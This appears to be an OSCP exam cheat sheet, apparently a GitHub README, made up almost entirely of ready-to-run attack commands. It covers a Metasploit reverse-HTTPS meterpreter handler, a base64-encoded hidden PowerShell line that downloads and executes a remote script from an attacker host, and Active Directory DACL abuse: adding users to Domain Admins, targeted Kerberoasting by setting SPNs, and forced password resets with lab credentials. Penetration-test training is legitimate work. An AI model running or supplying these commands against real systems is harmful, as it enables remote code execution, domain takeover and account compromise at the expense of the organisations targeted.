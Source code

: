 cheat sheet oscp
commands
----
Host IP: 192.168.xx.xx
target IP: 192.168.xx.xx
----

Launch msfconsole
------------------

service postgresql start
sudo msfdb start
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST tun0
set LPORT 4444
set ExitOnSession false
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
exploit -jz

Reverse Shell
-------------
$Command = "(New-Object System.Net.WebClient).DownloadString('http://192.168.xx.xx/rev.ps1') | IEX"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
$EncodedCommand = [Convert]::ToBase64String($Bytes)
$EncodedCommand
powershell -$ta -Nop -Window Hidden -EncodedCommand $EncodedCommand

base64

DACL Genricall
--------------

net rpc user -U ignite.local/komal%'Password@1' -S 192.168.1.8
net rpc group members "Domain Admins" -U ignite.local/komal%'Password@1' -S 192.168.1.8
bloodhound-python -u komal -p Password@1 -ns 192.168.1.8 -d ignite.local -c All

Account Manipulation DACL(Discretionary Access Control Lists )
--------------------
net rpc group addmem "Domain Admins" "komal" -U ignite.local/komal%'Password@1' -S 192.168.1.8
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "komal" -p "Password@1" add groupMember "Domain Admins" "komal"
net group "domain admins" komal /add /domain
#create two user account 
net user vipin Password@1 /add /domain
net user nishant Password@1 /add /domain
#Multiple Method for Exploitation
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
./targetedKerberoast.py --dc-ip '192.168.1.8' -v -d 'ignite.local' -u 'nishant' -p 'Password@1'
#1.2 Windows PowerShell Script-Powerview
#Make sur that the target account has no SPN and then Set the SPN to obtain the KerbTGS hash
Get-DomainUser 'vipin' | Select serviceprincipalname
Set-DomainObject -Identity 'vipin' -Set @{serviceprincipalname='nonexistent/hackingarticles'}
$User = Get-DomainUser 'vipin'
$User | Get-DomainSPNTicket | f1

![image](https://github.com/user-attachments/assets/cfff6843-6551-426b-8656-0d1b0da202ee)

#T1110.001 – Change Password
#2.1 Linux Net RPC – Samba
net rpc password vipin 'Password@987' -U ignite.local/nishant%'Password@1' -S 192.168.1.8
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "nishant" -p "Password@1" set password "vipin" "Password@9876"
#2.3 Linux Net RPC –Rpcclient
rpcclient -U ignite.local/nishant 192.168.1.8
setuserinfo vipin 23 Ignite@987
#2.4 Windows Net Utility
net user Vipin Password@1234 /domain
#2.5 Windows PowerShell -Powerview
$SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.local\vipin', $SecPassword)
#2.6 Windows PowerShell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'vipin' -AccountPassword $NewPassword


Abusing AD-DACL: ForceChangePassword
--------------------------------------

#This permission provides right to change the password of a user account without knowing their current password.
#This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the #target user.
#Method for Exploitation – Change Password
#It can be achieved from UNIX-like system with net, a tool for the administration of samba and cifs/smb clients.
#net rpc password aarti 'Password@987' -U ignite.local/raj%'Password@1' -S 192.168.1.8
#Linux Net RPC – Rpcclient
rpcclient -U ignite.local/raj 192.168.1.8
setuserinfo aarti 23 Password@987
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "raj" -p "Password@1" set password "aarti" "Password@987"
#Windows PowerShell – Powerview
powershell -ep bypass
Import-Module .\PowerView.ps1
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity 'aarti' -AccountPassword $NewPassword

addself acl
-----------
The tester can abuse this permission by adding Anuradha User into Domain Admin group and list the domain admin members to ensure that Anuradha Users becomes Domain Admin.
net rpc group addmem "Domain Admins" anuradha -U ignite.local/anuradha%'Password@1' -S 192.168.1.7
bloodyAD --host "192.168.1.7" -d "ignite.local" -u "anuradha" -p "Password@1" add groupMember "Domain Admins" "anuradha"

The attacker can add a user/group/computer to a group. This can be achieved with with the Active Directory PowerShell module, or with Add-DomainGroupMember (PowerView module)
powershell -ep bypass
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.local\anuradha', $SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'anuradha' -Credential $Cred


Active Directory

TOOLS:

adPEAS-Light.ps1 >>      https://github.com/61106960/adPEAS/blob/main/adPEAS-Light.ps1
PowerUp.ps1 >>>          https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
PowerView.ps1>>          https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
